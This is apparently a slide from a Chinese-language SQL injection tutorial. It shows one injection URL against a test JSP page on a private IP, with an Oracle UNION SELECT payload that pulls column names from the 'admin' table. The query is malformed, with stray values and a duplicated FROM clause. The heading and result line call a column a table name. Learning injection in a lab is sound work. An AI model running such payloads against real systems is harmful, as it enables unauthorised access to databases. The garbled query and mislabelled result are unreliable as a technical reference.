

# 获取第二个表名
http://192.168.1.210:8080/SqlInject/SqlTest.jsp?id=-100 union select null,(select column_name from user_tab_columns where table_name='admin' and rownum=1 and column_name<>'EMPLOYEE_ID'),4,5,6 from dual,null,null,null,null,null,null,null,null,null from dual

得到表名为NAME